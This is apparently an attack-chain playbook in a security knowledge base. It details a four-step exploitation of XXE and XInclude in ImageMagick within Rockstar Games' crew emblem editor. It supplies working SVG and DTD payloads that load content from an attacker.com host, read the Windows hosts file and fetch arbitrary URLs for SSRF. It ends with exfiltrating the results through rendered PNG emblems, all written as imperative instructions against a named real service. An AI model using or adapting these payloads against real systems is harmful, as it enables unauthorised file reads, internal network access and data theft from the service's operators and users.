

# LFI and SSRF via XXE in ImageMagick SVG Processing in Rockstar Emblem Editor

Multi-stage attack chain demonstrating exploitation of an XXE vulnerability in an outdated ImageMagick version within Rockstar Games' emblem editor. The attack bypasses input filters to load external SVGs, triggers XXE or XInclude for LFI and SSRF, and exfiltrates sensitive data through rendered PNG emblems after a year of experimentation with malicious SVG inputs.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ImageMagick]] (exploited on target)
- Web server to host malicious SVG and DTD (e.g., Python's http.server)

### Target Environment

- Rockstar Games emblem editor web application
- Windows server with outdated ImageMagick vulnerable to XXE
- Network access to submit SVG inputs via the web interface

### Initial Access Requirements

- Valid user account on Rockstar Games platform
- Ability to access the crew emblem editor
- No prior privileged access needed; exploits public-facing feature

## Detailed Attack Procedures

### Step 1: Bypass Regex Filter for External SVG Loading
procedure: [[procedures/Bypass-Regex-Filter-for-External-SVG-Loading]]

**Objective**: Circumvent the input validation regex to reference and load an external malicious SVG hosted on the attacker's server.

**Instructions**: Craft an SVG input for the emblem editor using a double forward slash to bypass URL filtering, embedding a reference to the attacker's hosted SVG.

Embed the following in the SVG input field:

```xml
<rect fill="url(//attacker.com/malicious.svg#exploit)" x="0" y="0" width="100" height="100"/>
```

Host the malicious.svg on your server at http://attacker.com/malicious.svg.

**Expected Output**: The editor loads the external SVG without triggering the regex block.

**Success Indicators**:
- External SVG content is processed without error
- No filter rejection message appears

### Step 2: Exploit XXE for File and HTTP Exfiltration
procedure: [[procedures/Exploit-XXE-for-File-and-HTTP-Exfiltration]]

**Objective**: Use XXE in the processed SVG to read local files like the hosts file and fetch HTTP responses via external entities.

**Instructions**: In the hosted malicious.svg, declare an external entity pointing to your DTD, then reference it in the SVG to trigger file reads.

Update malicious.svg with:

```xml
<!DOCTYPE svg [ <!ENTITY % outside SYSTEM "http://attacker.com/exfil.dtd"> %outside; ]> <svg> <defs> <pattern id="exploit"> <text x="10" y="10"> &exfil; </text> </pattern> </defs> </svg>
```

Host exfil.dtd at http://attacker.com/exfil.dtd containing:

```dtd
<!ENTITY % data SYSTEM "file:///C:/Windows/system32/drivers/etc/hosts"> <!ENTITY exfil "%data;">
```

Submit the updated SVG to the editor.

**Expected Output**: ImageMagick processes the XXE, reads the file, and renders its content visibly in the emblem.

**Success Indicators**:
- Local file contents (e.g., hosts file) appear in the rendered emblem
- HTTP requests to attacker.com are logged on the attacker's server

### Step 3: SSRF and LFI via XInclude in SVG
procedure: [[procedures/SSRF-and-LFI-via-XInclude-in-SVG]]

**Objective**: Leverage XInclude support in ImageMagick as a more reliable alternative to XXE for SSRF and LFI, fetching external content or local files.

**Instructions**: Embed an XInclude directive in the SVG text element to fetch arbitrary URLs or files.

Add to the SVG:

```xml
<text x="10" y="10"> <xi:include href="https://www.google.com/" parse="text"/> </text>
```

For LFI, use: `href="file:///C:/Windows/system32/drivers/etc/hosts"`.

Submit the SVG to the emblem editor for processing.

**Expected Output**: External content or file data is included and rendered in the PNG output.

**Success Indicators**:
- Fetched HTTP response (e.g., Google homepage text) renders in the emblem
- Local file contents are visible without XXE failures

### Step 4: Exfiltrate Data via Rendered Emblem
procedure: [[procedures/Exfiltrate-Data-via-Rendered-Emblem]]

**Objective**: Convert the malicious SVG to PNG, capturing the exfiltrated data in the visible rendered emblem for attacker retrieval.

**Instructions**: Submit the final crafted SVG to the emblem editor's conversion feature.

Trigger the PNG generation button in the editor interface.

Capture the resulting crew emblem image containing the exfiltrated data.

**Expected Output**: A PNG emblem image displaying sensitive file contents or HTTP responses.

**Success Indicators**:
- Emblem renders with embedded data visible
- Attacker can screenshot or download the emblem to obtain exfiltrated information

## Attack Chain Summary

### Key Achievements

1. Bypassed input filters to load external resources
2. Exploited XXE and XInclude for LFI and SSRF
3. Exfiltrated sensitive server files and HTTP data via user-visible emblems

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[File and Directory Discovery]]
- [[Exploitation of Remote Services]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
